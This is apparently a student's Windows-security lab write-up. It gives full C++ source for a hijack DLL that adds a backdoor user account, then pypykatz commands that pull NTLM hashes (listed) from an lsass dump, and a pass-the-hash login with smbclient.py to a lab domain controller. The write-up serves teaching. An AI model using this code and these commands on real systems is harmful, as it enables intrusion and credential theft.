





# Windows Security I

## DLL-Hijack 

### Setup of Target and Development Systems

>The target system (easyftpsvr-1.7.0.2) is vulnerable to DLL hijacking attacks. A prototype on your own VM is sufficient (no VPN needed).
>- Find a DLL that is in a writable location.
>- Analyze the provided program (ftpbasicsvr.exe) with Sysinternals procmon, identify a DLL and create the malicious DLL.
>- Create a DLL to add a backdoor user for the provided easyftp server.
>- You can either create the DLL with Visual Studio Code and build the solution or you can use "shell2bin" or "dll proxy" tools.

A Windows-7 (32 bit) virtual machine was created in VirtualBox to execute the `easyftpsvr-1.7.0.2` in. The .iso file was taken from
https://dn710009.ca.archive.org/0/items/Win7UltimateSP1DEU/6.1.7601.17514-de-Windows_7_x86fre_client_de-de_OEM_Ultimate-GSP1RMCULFREO_DE_DVD.iso

The sysinternals binary was taken from  
https://download.heise.de/files/91u2lXHegN-ElbAyvtlAsA/320580/sysinternalssuite.zip?expires=1759311998

In order to get the sysinternals `procmon` to work on the Windows 7 VM, an additional Windows 7 Software Update had to be installed:  
https://catalog.s.download.windowsupdate.com/d/msdownload/update/software/secu/2015/02/windows6.1-kb3033929-x86_927e018113fe51250c57029635d46b89bf235920.msu

The DLL containing the payload was implemented on a native Windows 11 OS. For the compilation, the Visual Studio Build tools were installed (Variant "Desktop Development with C++")
https://download.visualstudio.microsoft.com/download/pr/e28bf043-c63e-47d0-b6e9-c418229fb008/999a275192383f1da35ccf655568645534b632770c556f64f866f3d3f7b53b32/vs_BuildTools.exe

### Development of the DLL, including Payload

A C++ module containing the `DllMain()` function was implemented. The payload code was executed if `ul_reason_for_call == DLL_PROCESS_ATTACH`, i.e. in the moment in which a process is loading the DLL. Even if a subsequent function lookup of the process is failing, the payload code has already been executed.

```C++
bool userExists(LPWSTR username)
{
    LPUSER_INFO_0 pUserInfo = nullptr;
    NET_API_STATUS status = NetUserGetInfo(nullptr, username, 0, (LPBYTE*)&pUserInfo);

    if (status == NERR_Success)
    {
        NetApiBufferFree(pUserInfo);
        return true;
    } 
    else if (status == NERR_UserNotFound)
    {
        return false;
    } 
    else
    {
        std::cerr << "Error checking user: " << status << std::endl;
        return false;
    }
}

void createUser(LPWSTR pUserName, LPWSTR passwd)
{
    // Set up user info
    USER_INFO_1 ui;
    ui.usri1_name = pUserName;
    ui.usri1_password = passwd;
    ui.usri1_priv = USER_PRIV_USER;
    ui.usri1_home_dir = nullptr;
    ui.usri1_comment = nullptr;
    ui.usri1_flags = UF_SCRIPT;
    ui.usri1_script_path = nullptr;

    DWORD dwError = 0;
    NET_API_STATUS nStatus = NetUserAdd(nullptr, 1, (LPBYTE)&ui, &dwError);

    if (nStatus == NERR_Success)
    {
        wprintf(L"User created successfully.\n");
    }
    else
    {
        wprintf(L"Failed to create user. Error: %d\n", nStatus);
    }
}


BOOL APIENTRY DllMain(HMODULE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved)
{
    if (DLL_PROCESS_ATTACH == ul_reason_for_call)
    {
        // Called when the DLL is loaded into a process
        std::cout << "The DLL just got loaded.\n";
        std::string userAndDomain = "";
        if (getUserDomainString(userAndDomain) == 0)
        {
            std::cout << "User and domain: " << userAndDomain << "\n";
            writeInfo(userAndDomain);

            // The actual payload comes here
            if (!userExists(L"BackdoorUser"))
            {
                createUser(L"BackdoorUser", L"BackdoorPasswd");
            }
        }
        else
        {
            std::cerr << "Error: could not get user and domain.\n";
        }            
    }

    return TRUE;
}
```

The "Developer Command Prompt for VS 2022" (installed via Visual Studio Build Tools) is started to run the compilation commands in. As the targeted Windows 7 is a 32 bit OS, it must be ensured that the toolchain generates 32-bit binaries. This is done using the command line

```bat
call "C:\Path\To\VC\Auxiliary\Build\vcvarsall.bat" x86
```

The DLL, and a tiny test.exe are built using the following batch file, which compiles DLL and test app in debug mode and links the runtime statically, which avoids the hassle of having to copy additional DLLs onto the target system:

```bat
@ECHO OFF

REM
REM _MBCS -> use multi-byte charsets, WIN32->32 bit platform, _WINDOWS -> Windows build
REM
SET DEFINES=/D _MBCS /D WIN32 /D _WINDOWS

REM
REM Adapt library path to wherever the libraries reside
REM
SET LIBPATH=/LIBPATH:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.26100.0\um\x86"
SET LIBRARIES=kernel32.Lib USER32.LIB GDI32.LIB WINSPOOL.LIB SHELL32.LIB OLE32.LIB OLEAUT32.LIB UUID.LIB COMDLG32.LIB ADVAPI32.LIB

REM
REM 0d-> no optimization and debugging info, EHsc add exception support
REM Zc:wchar_t->use wchar_t as builtin type, Gd -> cdecl calling convention, GR -> enable RTTI
REM
SET CCOPTS=/Od /EHsc /MTd /Zc:wchar_t /Gd /GR

cl /LD /nologo %DEFINES% /D _WINDLL %CCOPTS% src/mylib.cpp     /link %LIBPATH% %LIBRARIES% /out:mylib.dll
cl     /nologo %DEFINES%            %CCOPTS% src/mylibtest.cpp /link %LIBPATH% %LIBRARIES% /out:mylibtest.exe
```

After compilation and testing on the development system, the DLL is copied into the target system, together with the FTPServer sources and the sysinternal binaries. The `easyftpsvr` binary is added into `C:\CCD\easyftpsvr-1.7.0.2`, a folder that can be accessed by any user. The service is installed with admin rights by invoking `easyftpsvr.exe -install`, and now shows up in the lists of services executing in the VM:



In the next step, `procmon` is started, and a filter is added which excludes all non-ftp services like shown below:



If there is no entry in the resulting list, stopping and restarting the service will populate it. Double-clicking one of the events, then switching to the "Process" tab provides the list of DLLs which the `easyftpsvr` service has currently loaded. 



As `sspicli.dll` has been successfully used for DLL sideloading in the past, https://hijacklibs.net/entries/microsoft/built-in/sspicli.html, `mylib.dll` is copied into `C:\CCD\easyftpsvr-1.7.0.2` as `SspiCli.dll`. After stopping and restarting the server, `net user` displays the `BackDoorUser` which was installed when the DLL was loaded.



## DUMP

>A previous attack escalated privileges on a user’s Computer and created a process dump of the lsass process (attached below, lsass.zip).
>
>The passwords and password hashes are stored in the Security Support Providers's memory. Recover usable passwords and password hashes from the process dump. The goal is to recover the NTLM password hash (no VPN needed).
>
>Hints Windows:
>
>    mimikatz # sekurlsa::minidump
>
>Hints Linux:
>
>    Pypykatz minidump https://github.com/skelsec/pypykatz

### Setup of Analysis System

For the subsequent analysis steps, a Kali VM was installed in VirtualBox.

The following Kali image is used:
[https://cdimage.kali.org/kali-2025.3/kali-linux-2025.3-virtualbox-amd64.7z](https://cdimage.kali.org/kali-2025.3/kali-linux-2025.3-virtualbox-amd64.7z)  

A virtual environment for pypykatz is created by `python3 -m venv ./venv` and started by `. ./venv/bin/activate`. pypykatz is then installed via `pip3 install pypykatz`. In the next step mimikatz is used to create a parseable credentials dump out of the extracted LSA dump. The credentials dump is then put into a filter to produce the relevant outputs, i.e. domain name, user name, and NTLM hash:

```zsh
pypykatz lsa minidump lsass.DMP --grep -o credentials.txt
cat credentials.txt | sed -E 's/[^:]*:([^:]*):([^:]*):([^:]*).*:.*/\1,\2,\3/' | grep -vE "^," | grep -vE ",$"
```

This returns the following NTLM hashes:

|domain|user|NTLM Hash|
|-|-|-|
|winctf|monitoring|2785d316dd37ca24ebb855fcf054c74a|
|ap321|admin_laps|b49674ecf0ac6dcc0169c6e0e99c726d|
|Window Manager|DWM-2|e90ad219309a589cce444685cfc2165a|
|Font Driver Host|UMFD-2|e90ad219309a589cce444685cfc2165a|
|Window Manager|DWM-1|e90ad219309a589cce444685cfc2165a|
|WORKGROUP|ap321$|e90ad219309a589cce444685cfc2165a|
|Font Driver Host|UMFD-0|e90ad219309a589cce444685cfc2165a|
|Font Driver Host|UMFD-1|e90ad219309a589cce444685cfc2165a|

The accounts `monitoring`, `admin_laps` are candidates for trying to login subsequently.

## PTH
>You extracted credentials of the “monitoring” user. This user has access to a monitoring share on the domain controller. Find a way to access it - it seems the password is not available. The target share is “monitoring” on the domain controller. The flag is in flag.txt. 
>
>The Domain controller is accessible via VPN at 192.168.10.162.
>
>Hints Windows:
>
>    mimikatz sekurlsa::pth
>
>Hints Linux:
>
>    smbclient.py


Using 
- the provided password for the account `its26eschwaig`, 
- the vpn configuration file obtained at the SOPHOS portal and 
- the Kali `openvpn` client,

a vpn connection is set up as follows:

```zsh
sudo openvpn --config sslvpn-its26eschwaig-client-config.ovpn
```

Once the connection is set up, the SMB server `192.168.10.162` becomes available. In the virtual environment created in the previous step, the `smbclient.py` script is downloaded from `https://github.com/fortra/impacket/blob/master/examples/smbclient.py`. Running the script gives an error indicating that `impacket` needs to be installed. This is done in the virtual environment via `pip3 install impacket`.

Invoking `smbclient.py` still gives an error, this time directly in the python module itself, on line 71:

```zsh
./smbclient.py -hashes :2785d316dd37ca24ebb855fcf054c74a -target-ip 192.168.10.162  winctf/monitoring
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Traceback (most recent call last):
  File "/home/kali/projects/CCD/./impacket/examples/smbclient.py", line 126, in <module>
    main()
    ~~~~^^
  File "/home/kali/projects/CCD/./impacket/examples/smbclient.py", line 71, in main
    logger.init(options.ts, options.debug)
    ~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^
TypeError: init() takes from 0 to 1 positional arguments but 2 were given
```

by fixing the script like so
```py
    #logger.init(options.ts, options.debug)
    logger.init(options.ts)
```
and running the script again, the `monitoring` share becomes available. Opening it and looking into the content of `flag.txt` reveals the flag:


